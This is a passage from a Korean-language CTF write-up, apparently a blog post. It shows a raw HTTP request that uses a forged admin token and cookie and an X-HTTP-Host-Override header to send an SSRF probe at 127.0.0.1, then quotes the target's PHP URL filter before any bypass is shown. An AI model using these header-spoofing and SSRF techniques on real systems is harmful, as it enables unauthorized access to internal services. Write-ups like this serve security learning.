 위 코드를 통해 X-SECRET 값을 알아내고, 바로 X-Token 값도 admin 권한으로 하여 새롭게 뽑았다.

그리하여 `X-HTTP-Host-Override` 헤더를 추가하여 요청을 날리면 위 코드는 무사히 통과되는 것을 확인할 수 있다.

```
[ Request ]
POST /index.phtml?fun_004ded7246=load HTTP/1.1
Host: 114.203.209.112:8000
Content-Type: application/x-www-form-urlencoded
Content-Length: 20
Cookie: PHPSESSID=km8242du1i5ctdu87piomkf744; USER=admin; X-TOKEN=9cf35b150a5bcdd1fac0804ddab73d4fb9208d8d40500978d9d902ed7e63f9c4; 
X-HTTP-Host-Override: 127.0.0.1

url=http://127.0.0.1

[ Response ]
HTTP/1.1 200 OK
...

IP not allowed or host error
```

다음 단계는 SSRF를 우회하는 방법인데, 다음 코드에서 볼 수 있듯이 IP는 왠만해선 우회가 안되는 것을 확인 할 수 있다.

```php
function valid_url($url)
{
    $valid = False;
    $res=preg_match('/^(http|https)?:\/\/.*(\/)?.*$/',$url);
    if (!$res) $valid = True;
    try{ parse_url($url); }
    catch(Exception $e){ $valid = True;}
    $int_ip=ip2long(gethostbyname(parse_url($url)['host']));
    return $valid 
            || ip2long('127.0.0.0') >> 24 == $int_ip >> 24 
            || ip2long('10.0.0.0') >> 24 == $int_ip >> 24 
            || ip2long('172.16.0.0') >> 20 == $int_ip >> 20 
            || ip2long('192.168.0.0') >> 16 == $int_ip >> 16 
            || ip2long('0.0.0.0') >> 24 == $int_ip >> 24;
}

function get_data($url)
{

    if (valid_url($url) === True) { return "IP not allowed or host error"; }

    $ch = curl_init();
    $timeout = 7;
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, True);
    curl_setopt($ch, CURLOPT_MAXREDIRS, 1);
    curl_setopt($ch, CURLOPT_TIMEOUT, $timeout);
    curl_setopt($ch, CURLOPT_FOLLOWLOCATION,1);
    curl_setopt($ch, CURLOPT_CONNECTTIMEOUT, $timeout);
    $data = curl_exec($ch);

    if (curl_error($ch))
    {
        curl_close($ch);
        return "Error !";
    }

    curl_close($ch);
    return $data;
}
```